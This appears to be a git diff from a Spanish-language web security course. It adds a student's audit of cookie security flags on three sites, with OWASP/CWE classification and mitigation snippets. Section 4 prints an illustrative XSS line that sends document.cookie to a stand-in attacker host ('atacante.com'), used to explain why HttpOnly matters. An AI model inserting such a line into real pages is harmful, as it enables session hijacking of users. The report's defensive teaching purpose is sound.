

objetivo1 clase6

diff --git a/Modulo_II/6/Objetivo_1_Auditoria_Cookie/Objetivo_1_Auditoria_Cookies.md b/Modulo_II/6/Objetivo_1_Auditoria_Cookie/Objetivo_1_Auditoria_Cookies.md
@@ -1,0 +1,239 @@
+# Objetivo 1 — Auditoría de Cookies y Banderas de Seguridad
+
+> **Curso:** Ciberseguridad Web y Ethical Hacking (UTN / Software Seguro)
+> **Módulo / Objetivo:** Security Misconfiguration — Cookies y banderas de seguridad
+> **Autora:** María de los Ángeles Acuña — QA Tester
+> **Fecha:** Noviembre 2026
+
+---
+
+## 1. Introducción
+
+Una cookie de sesión es, en la práctica, la credencial que identifica a un usuario autenticado
+frente al servidor en cada request posterior al login. Si esa cookie cae en manos de un
+atacante, el atacante **es** ese usuario para la aplicación, sin necesidad de contraseña. Por
+eso el navegador expone tres banderas de seguridad que acotan cómo se puede acceder y
+transmitir esa cookie:
+
+- **HttpOnly** — la cookie no es accesible desde JavaScript (`document.cookie`).
+- **Secure** — la cookie solo se envía por HTTPS, nunca en texto plano por HTTP.
+- **SameSite** — controla si la cookie se envía en requests que vienen de otro sitio (mitiga CSRF).
+
+Para esta auditoría se inspeccionaron, con el inspector del navegador (DevTools →
+Almacenamiento → Cookies), las cookies de **tres sitios públicos**: uno con sesión de usuario
+real logueada (la plataforma del curso), y dos sin iniciar sesión (GitHub y MercadoLibre), para
+poder comparar cómo cambia el panorama de cookies con y sin autenticación.
+
+> **Nota de método:** en las capturas que acompañan este informe se ocultó manualmente la
+> columna "Valor" de cada cookie, porque esos valores son tokens de sesión reales (uno de
+> ellos, el de la plataforma del curso, es un JWT de autenticación vigente). Publicar esos
+> valores en un repositorio público equivaldría a publicar una credencial de sesión utilizable.
+> Las banderas (HttpOnly / Secure / SameSite), que es lo que se audita acá, se mantuvieron
+> visibles.
+
+---
+
+## 2. Sitios auditados
+
+| # | Sitio | Estado de sesión | Cantidad de cookies relevadas |
+|---|---|---|---|
+| 1 | `github.com` | **Sin loguear** (cookie `logged_in=no`) | 11 |
+| 2 | `mercadolibre.com.ar` | **Sin loguear** | 14 (+ 1 de dominio de terceros, `doubleclick.net`) |
+| 3 | `app.softwareseguro.com.ar` (plataforma del curso) | **Logueada** (cookie `auth` presente) | 4 |
+
+---
+
+## 3. Tabla comparativa de banderas por cookie
+
+### 3.1 GitHub (github.com) — sin loguear
+
+| Cookie | HttpOnly | Secure | SameSite | Función aparente |
+|---|---|---|---|---|
+| `_device_id` | ✅ true | ✅ true | Lax | Identificador de dispositivo (antifraude) |
+| `_gh_sess` | ✅ true | ✅ true | Lax | Sesión de la app |
+| `_octo` | ❌ false | ✅ true | Lax | Analytics interno |
+| `cpu_bucket` | ❌ false | ✅ true | Lax | A/B testing |
+| `GHCC` | ❌ false | ✅ true | Lax | Consentimiento de cookies |
+| `logged_in` | ✅ true | ✅ true | Lax | Indica si hay sesión activa (acá, "no") |
+| `Microsoft...` (telemetría MS) | ❌ false | ✅ true | None | Telemetría de terceros |
+| `MSFPC` | ❌ false | ✅ true | None | Tracking de Microsoft |
+| `preferred_color_mode` | ❌ false | ✅ true | Lax | Preferencia de tema (dark) |
+| `saved_user_sessions` | ✅ true | ✅ true | Lax | Referencia a sesiones guardadas |
+| `tz` | ❌ false | ✅ true | Lax | Zona horaria |
+
+**Lectura:** las cookies con función de sesión/identidad (`_gh_sess`, `_device_id`,
+`logged_in`, `saved_user_sessions`) tienen **HttpOnly=true**. Las que no son sensibles
+(preferencias, analytics) no lo tienen, lo cual es razonable. **Todas** tienen Secure=true.
+GitHub aplica el criterio correcto: HttpOnly reservado para lo que es realmente sesión.
+
+![Cookies de github.com — columna "Valor" ocultada por contener tokens de sesión reales](github_cookies_redacted.png)
+*Captura: DevTools → Almacenamiento → Cookies, github.com (sin loguear).*
+
+### 3.2 MercadoLibre (mercadolibre.com.ar) — sin loguear
+
+| Cookie | HttpOnly | Secure | SameSite | Función aparente |
+|---|---|---|---|---|
+| `_csrf` | ✅ true | ✅ true | None | Token anti-CSRF |
+| `c_26WzJ4`, `c_l2q2G` | ✅ true | ✅ true | None | Internas de MELI (config/consentimiento) |
+| `cp` | ✅ true | ✅ true | None | Código de país/zip |
+| `inferredZipcode` | ✅ true | ✅ true | None | Geolocalización inferida |
+| `_bm_skipml`, `_bm_timing`, `_bmc` | ❌ false | ❌ false | (vacío) | Bot management (terceros, Akamai) |
+| `_bmstate` | ❌ false | ❌ false | Lax | Bot management |
+| `_d2id` | ✅ true | ✅ true | None | Identificador de dispositivo |
+| `_gcl_au` | ❌ false | ❌ false | None | Google Ads (atribución) |
+| `_hjSessionUser_720735` | ❌ false | ❌ false | None | Hotjar (analytics de UX) |
+| **`_mldataSessionId`** | ❌ **false** | ✅ true | None | **ID de sesión de analítica de datos de MELI** |
+| `_pin_unauth` | ✅ true | ✅ true | None | Pinterest (tracking de conversión) |
+
+**Lectura — hallazgo a remarcar:** la cookie `_mldataSessionId` está nombrada explícitamente
+como "session id" y sin embargo tiene **HttpOnly=false**, quedando accesible desde JavaScript.
+Varias cookies de bot-management (`_bm_*`) ni siquiera tienen Secure, aunque en este caso son
+cookies de terceros con fines antibot/analytics, no de sesión de usuario, por lo que el riesgo
+real es bajo — pero ilustra que **no todas las cookies "de sesión" en el nombre están
+efectivamente protegidas**, y conviene no asumir seguridad por el nombre de la cookie sino
+revisar la bandera real.
+
+![Cookies de mercadolibre.com.ar — columna "Valor" ocultada por contener tokens reales](mercadolibre_cookies_redacted.png)
+*Captura: DevTools → Almacenamiento → Cookies, mercadolibre.com.ar (sin loguear).*
+
+### 3.3 Plataforma del curso (app.softwareseguro.com.ar) — logueada
+
+| Cookie | HttpOnly | Secure | SameSite | Función aparente |
+|---|---|---|---|---|
+| `_ga_MR6...`, `_ga` | ❌ false | ❌ false | — | Google Analytics |
+| **`auth`** | ❌ **false** | ✅ true | Lax | **Token de sesión (JWT) del usuario logueado** |
+| `cf_clearance` | ✅ true | ✅ true | None | Challenge de Cloudflare (antibot) |
+
+**Lectura — hallazgo principal de esta auditoría:** la cookie `auth`, que contiene el JWT de
+autenticación de la sesión activa (confirmado por su estructura y por ser la única cookie
+distinta de analytics/antibot en una sesión logueada), tiene **HttpOnly=false**. Esta es,
+de las tres auditorías, la única donde una cookie de sesión *real y activa* queda expuesta a
+JavaScript. Es el caso más relevante para explicar el riesgo de no usar HttpOnly en la
+práctica, con datos propios y no hipotéticos.
+
+![Cookies de app.softwareseguro.com.ar — columna "Valor" ocultada; contiene el JWT de sesión real](softwareseguro_cookies_redacted.png)
+*Captura: DevTools → Almacenamiento → Cookies, plataforma del curso (sesión logueada).*
+
+---
+
+## 4. ¿Qué protege HttpOnly?
+
+HttpOnly es una bandera que le indica al navegador: *"esta cookie no debe estar disponible
+para scripts del lado del cliente"*. Concretamente, con HttpOnly activo, `document.cookie`
+**no devuelve esa cookie**, y ninguna librería de JavaScript que corra en la página puede
+leerla, modificarla ni exfiltrarla.
+
+Esto importa porque protege específicamente contra el escenario de **Cross-Site Scripting
+(XSS)**: si un atacante logra inyectar JavaScript malicioso en la página (por un campo mal
+sanitizado, una librería de terceros comprometida, etc.), ese script corre con el mismo
+contexto que el resto de la página. **Sin HttpOnly**, ese script podría ejecutar algo tan
+simple como:
+
+```javascript
+fetch('https://atacante.com/robar?cookie=' + document.cookie);
+```
+
+y enviar la cookie de sesión completa al servidor del atacante. Con esa cookie, el atacante
+puede hacerse pasar por el usuario sin necesidad de contraseña ni segundo factor —esto se
+conoce como **session hijacking vía XSS**.
+
+**Con HttpOnly activo**, aunque el XSS exista y el script se ejecute igual, ese script **no
+puede leer la cookie protegida**: `document.cookie` simplemente no la incluye. El XSS sigue
+siendo un problema (puede hacer otras cosas, como phishing in-page o key logging), pero deja
+de ser una vía directa para robar la sesión.
+
+> **Aplicado al caso real relevado:** la cookie `auth` de la plataforma del curso, al no tener
+> HttpOnly, sería robable con una línea de JavaScript si existiera *cualquier* vulnerabilidad
+> de XSS en esa aplicación. Es exactamente el escenario que esta bandera existe para evitar.
+
+---
+
+## 5. ¿Cuál es el riesgo de no tener Secure?
+
+Secure le dice al navegador: *"enviá esta cookie únicamente por conexiones HTTPS, nunca por
+HTTP en texto plano"*. Sin esta bandera, si la misma cookie se pudiera enviar también por
+HTTP (por ejemplo porque existe una versión no segura del sitio, un subdominio mal
+configurado, o el usuario fuerza `http://` manualmente), el valor de la cookie viajaría **sin
+cifrar** por la red.
+
+El riesgo concreto es un ataque de tipo **Man-in-the-Middle (MITM)**: cualquiera que pueda
+interceptar el tráfico de red del usuario —en un Wi-Fi público no cifrado, una red corporativa
+comprometida, un proxy malicioso— puede leer esa cookie en texto plano con una herramienta
+como Wireshark, y usarla para robar la sesión, sin necesidad de romper ningún cifrado ni
+explotar ninguna vulnerabilidad de la aplicación.
+
+En los tres sitios auditados, la gran mayoría de las cookies con datos de sesión o
+identificación tienen Secure=true, que es el comportamiento esperado en sitios que sirven
+todo por HTTPS. Las excepciones (`_ga`/`_ga_MR6...` de Analytics y algunas `_bm_*` de
+MercadoLibre) corresponden a cookies de analítica/antibot de terceros, no a cookies de sesión
+de usuario — el riesgo ahí es menor, aunque igual sería preferible que también fueran Secure
+por defecto.
+
+---
+
+## 6. Clasificación
+
+- **Tipo de hallazgo:** configuración insegura de atributos de cookie (falta de HttpOnly en
+  cookie de sesión).
+- **OWASP Top 10:** **A05:2021 — Security Misconfiguration**; relacionado también con
+  **A07:2021 — Identification and Authentication Failures** cuando la cookie expuesta es la
+  de sesión/autenticación.
+- **CWE:** **CWE-1004 — Sensitive Cookie Without 'HttpOnly' Flag**; adicionalmente
+  **CWE-614 — Sensitive Cookie in HTTPS Session Without 'Secure' Attribute** para las cookies
+  sin Secure.
+- **Severidad:** depende de si existe o no una vulnerabilidad de XSS en la aplicación. Por sí
+  sola, una cookie sin HttpOnly **no es explotable** — es un **multiplicador de riesgo**: si
+  en el futuro aparece un XSS, una cookie de sesión sin HttpOnly convierte ese XSS en un robo
+  de sesión directo.
+
+---
+
+## 7. ¿Cómo se mitiga?
+
+1. **Marcar HttpOnly en toda cookie de sesión/autenticación.** En la mayoría de los
+   frameworks es un flag al momento de setear la cookie:
+   - **Express/Node:** `res.cookie('auth', token, { httpOnly: true, secure: true, sameSite: 'lax' })`
+   - **PHP:** `setcookie('auth', $token, ['httponly' => true, 'secure' => true, 'samesite' => 'Lax'])`
+   - **Django:** `SESSION_COOKIE_HTTPONLY = True`
+
+2. **Marcar Secure en toda cookie que viaje por un sitio servido con HTTPS** (hoy, prácticamente
+   todos). Combinado con **HSTS** (`Strict-Transport-Security`) a nivel de servidor, para que
+   el navegador ni siquiera intente HTTP.
+
+3. **Definir SameSite explícitamente** (`Lax` o `Strict` según el caso de uso) en vez de dejarlo
+   sin especificar, para mitigar CSRF.
+
+4. **No depender solo de HttpOnly.** Es una mitigación importante pero no reemplaza prevenir
+   el XSS en primer lugar: sanitizar inputs, usar Content-Security-Policy, escapar output.
+
+### Verificación (re-test)
+
+- Volver a inspeccionar la cookie en DevTools tras el cambio y confirmar que la columna
+  HttpOnly pasa a `true`.
+- Intentar `document.cookie` desde la consola del navegador y confirmar que la cookie de
+  sesión ya no aparece en el resultado.
+
+---
+
+## 8. Conclusión
+
+Las tres banderas de cookie (HttpOnly, Secure, SameSite) no son un detalle cosmético: son la
+última línea de defensa de una cookie de sesión cuando otra capa de seguridad ya falló (un
+XSS, una red insegura, un ataque cross-site). En esta auditoría, GitHub mostró el patrón
+correcto —HttpOnly reservado para lo que es sesión real—, mientras que tanto MercadoLibre
+(`_mldataSessionId`) como, sobre todo, la plataforma del curso (`auth`) tienen cookies
+nombradas o funcionalmente ligadas a sesión **sin HttpOnly**, quedando expuestas a robo vía
+JavaScript si alguna vez aparece una vulnerabilidad de XSS en esas aplicaciones. La mitigación
+es de bajo costo (un flag al setear la cookie) y de alto impacto, por lo que debería ser
+estándar en cualquier cookie que identifique a un usuario autenticado.
+
+---
+
+## Referencias
+
+- OWASP Top 10 — A05:2021 Security Misconfiguration.
+- OWASP Top 10 — A07:2021 Identification and Authentication Failures.
+- CWE-1004 — Sensitive Cookie Without 'HttpOnly' Flag.
+- CWE-614 — Sensitive Cookie in HTTPS Session Without 'Secure' Attribute.
+- OWASP Cheat Sheet Series — *Session Management Cheat Sheet* (atributos de cookies).
+- MDN Web Docs — *Using HTTP cookies* (HttpOnly, Secure, SameSite).

diff --git a/Modulo_II/5/Objetivo_4_Manejo_Inseguro_Errores/Objetivo_4_Manejo_Inseguro_Errores.md b/Modulo_II/5/Objetivo_4_Manejo_Inseguro_Errores/Objetivo_4_Manejo_Inseguro_Errores.md
@@ -10,8 +10,7 @@
 ## 1. Introducción: cómo reacciona una app ante un fallo define su seguridad
 
 Toda aplicación falla en algún momento: una consulta a la base de datos que rompe, una
-variable que llega nula, un archivo que no existe, una división por cero. Lo que marca la
-diferencia **no es que falle**, sino **qué le muestra al usuario cuando falla**.
+variable que llega nula, un archivo que no existe, una división por cero.  El tema esta en **no es que falle**, sino **qué ve el usuario cuando falla**.
 
 Hay dos formas opuestas de reaccionar:
 
